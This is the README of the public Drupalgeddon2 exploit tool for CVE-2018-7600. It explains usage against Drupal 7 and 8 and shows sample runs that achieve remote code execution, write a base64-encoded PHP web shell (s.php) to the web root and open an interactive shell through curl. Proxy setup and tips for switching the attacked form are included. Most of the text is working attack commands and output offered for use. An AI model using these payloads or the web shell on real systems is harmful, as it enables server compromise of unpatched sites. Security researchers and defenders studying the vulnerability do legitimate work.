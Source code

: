 # CVE-2018-7600 | Drupal < 7.58 / 8.x < 8.3.9 / 8.4.x < 8.4.6 / 8.5.x < 8.5.1 - 'Drupalgeddon2' RCE (SA-CORE-2018-002)

[Drupalggedon2 ~ https://github.com/dreadlocked/Drupalgeddon2/](https://github.com/dreadlocked/Drupalgeddon2/) _([https://www.drupal.org/sa-core-2018-002](https://www.drupal.org/sa-core-2018-002))_

Supports:
- Drupal **< 8.3.9** / **< 8.4.6** / **< 8.5.1** ~ `user/register` URL, attacking `account/mail` & `#post_render` parameter, using PHP's `exec` function
- Drupal **< 7.58** ~ `user/password` URL, attacking `triggering_element_name` form & `#post_render` parameter, using PHP's `passthru` function
- With or without a writeable web root or sub-directories

The `user/register` method was chosen for Drupal v8.x, as it will return `HTTP 200`, and render the output in the `data` JSON response _(un-comment the code for `timezone`/`#lazy_builder` method, which will return `HTTP 500` & blind!)_ _([More Information](https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708))_.

Authors:
- [Hans Topo](https://github.com/dreadlocked)  _([@\_dreadlocked](https://twitter.com/_dreadlocked))_
- [g0tmi1k](https://blog.g0tmi1k.com/) _([@g0tmi1k](https://twitter.com/g0tmi1k))_


- - -


## Usage:

```bash
$ ruby drupalgeddon2.rb
Usage: ruby drupalggedon2.rb <target>
       ruby drupalgeddon2.rb https://example.com
$
```


### Drupal v8.x Example

_Drupal v8.x < v8.3.9 / v8.4.x < v8.4.6 / v8.5.x < v8.5.1_

```bash
$ ./drupalgeddon2.rb http://localhost/drupal-8/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://localhost/drupal-8/
--------------------------------------------------------------------------------
[!] MISSING: http://localhost/drupal-8/CHANGELOG.txt (404)
[+] Found  : http://localhost/drupal-8/core/CHANGELOG.txt (200)
[+] Drupal!: 8.4.5
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[*] Payload: echo MEWQTESC
[+] Result : MEWQTESC<span class="ajax-new-content"></span>
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: File Write To Web Root (./)
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }<span class="ajax-new-content"></span>
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://localhost/drupal-8/s.php' -d 'c=whoami'
ubuntu140045x64-drupal>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ubuntu140045x64-drupal>>
ubuntu140045x64-drupal>> uname -a
Linux ubuntu140045x64-drupal 3.13.0-144-generic #193-Ubuntu SMP Thu Mar 15 17:03:53 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
ubuntu140045x64-drupal>>
```


### Drupal v7.x Example

_Drupal < v7.58_

```
$ ./drupalgeddon2.rb http://localhost/drupal-7/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://localhost/drupal-7/
--------------------------------------------------------------------------------
[+] Found  : http://localhost/drupal-7/CHANGELOG.txt (200)
[+] Drupal!: 7.55
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[*] Payload: echo FLUBCTEZ
[+] Result : FLUBCTEZ
[{"command":"settings","settings":{"basePath":"\/drupal-7.55\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"bSQXTLxvuTsh1M_vGKQog3Rp7ZAA-o8-PBVy0RpC5NY"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/drupal-7.55\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"bSQXTLxvuTsh1M_vGKQog3Rp7ZAA-o8-PBVy0RpC5NY"}}}]
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: File Write To Web Root (./)
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }[{"command":"settings","settings":{"basePath":"\/drupal-7.55\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"5RvOux65dtisVX7T9EwnBxXhyvSdeNhX0njFg3ha_rc"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/drupal-7.55\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"5RvOux65dtisVX7T9EwnBxXhyvSdeNhX0njFg3ha_rc"}}}]
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://localhost/drupal-7/s.php' -d 'c=whoami'
ubuntu140045x64-drupal>> uptime
 14:52:33 up 4 days,  3:35,  1 user,  load average: 0.00, 0.01, 0.05
ubuntu140045x64-drupal>>
ubuntu140045x64-drupal>> whoami
www-data
ubuntu140045x64-drupal>>
```


#### File-Less Method

If you do not want to even try and write a PHP web shell to the web server, edit the file as shown _(it will fall back if it can't find a writeable location anyway)_:

```ruby
writeshell = true
```


#### Proxy Support

For proxy support _(e.g. Burp)_, edit the file, replacing with your values. Example:

```ruby
proxy_addr = '192.168.0.130'
proxy_port = 8080
```


- - -


## Troubleshooting:

- Sometimes, websites may redirect to another path where Drupal exists (such as `30x` responses). Solution: Make sure you are using the correct Drupal path.
- Drupal v7.x - If `/user/password` form is disabled, maybe you should find another form, but remember to change the exploit. Solution: `form_id` parameter will change depending on the form used to exploit the vulnerability.


- - -


## Links:

- **Write up & Research** ~ https://research.checkpoint.com/uncovering-drupalgeddon-2/
- Drupal SA-CORE-2018-002 Advisory ~ https://www.drupal.org/sa-core-2018-002
- cURL commands ~ https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708
- CVE ~ https://nvd.nist.gov/vuln/detail/CVE-2018-7600
